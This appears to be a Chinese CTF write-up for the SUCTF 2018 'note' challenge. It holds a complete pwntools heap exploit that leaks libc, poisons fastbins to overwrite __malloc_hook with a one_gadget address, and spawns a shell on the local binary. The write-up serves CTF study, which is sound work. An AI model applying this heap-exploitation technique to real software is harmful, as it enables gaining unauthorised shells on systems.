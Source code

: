 ```yaml
---
title: suctf-2018-note
date: 2018-06-23 20:09:43
categories:
tags:
	- CTF
	- malloc-hook
---
```




## 检测开启保护

[题目下载](suctf-2018-note/note.zip)

![img-1](suctf-2018-note/img-1.png)



## 逆向分析

可以发现add功能中有明显的溢出， box功能可以free chunk ， 然后会被合并到

![img-2](suctf-2018-note/img-2.png)

![img-3](suctf-2018-note/img-3.png)



## 完整EXP

思路比较简单，就是讲`malloc_hook`链入到fastbins，分配写入`/bin/sh`地址。

- one 就是 one_gadget 得到shell地址
- libc.address = 地址的获得，就是使用
  - 0x00007f91d701cb58  泄漏地址
  - 0x00007f91d6c5d000  so基地址
  - 偏移0x3bfb58 = 泄漏地址 - so基地址
  - so基地址 = 泄露地址 - 偏移0x3bfb58

```python
from pwn import *
# p = process('./note',env= {"LD_PRELOAD":"./libc6_2.24-12ubuntu1_amd64.so"})
p = process('./note',env= {"LD_PRELOAD":"/lib/x86_64-linux-gnu/libc.so.6"})
#libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
libc = ELF('./libc6_2.24-12ubuntu1_amd64.so')
def add(size,con):
    p.sendlineafter(">>",'1')
    p.sendlineafter('Size:',str(size))
    p.sendlineafter('Content:',con)

def show(idx):
    p.sendlineafter("Choice>>",'2')
    p.sendlineafter('Index:',str(idx))
    p.recvuntil('Content:')
    data = p.recvn(6)
    return data

def pwn():
    add(120,'A'*8)
    add(0xdc0,'d'*0xdc0+ 'A'*8+p64(0x91))
    add(0xa0,'c')
    p.sendlineafter("Choice>>",'3')
    p.sendlineafter(':1)','1')
    data = show(0)
    libc.address = u64(data.ljust(8,'\x00')) -0x3bfb58# 0x3c4b78
    success("libc is " + hex(libc.address))
    gdb.attach(p)
    payload = 'A'*0xf68+p64(0x71) + p64(libc.symbols['__malloc_hook']-19-0x10)
    one = libc.address + 0xf241b
    success("one is "+hex(one))
    # gdb.attach(p)

    add(0x110,payload)
    gdb.attach(p)
    add(0x60,'c')
    add(0x60,'c'*19+p64(one))
    p.interactive()
pwn()
```

不知道pwn()函数全三全是什么埋坑。

add(120,'A'*8) 

add(0xdc0, 'd'\*0xdc0+ 'A'\*8+p64(0x91)) 

add(0xa0,'c')

## 参考

[SUCTF 2018部分PWN题复现](http://p4nda.top/2018/05/29/suctf2018/)

[suctf的两道pwn——Heap和Note](https://arisxu.github.io/2018/06/03/suctf/)

[腹黑‘s blog SUCTF WriteUp By W&P](http://www.lovei.org/archives/suctf2018.html)


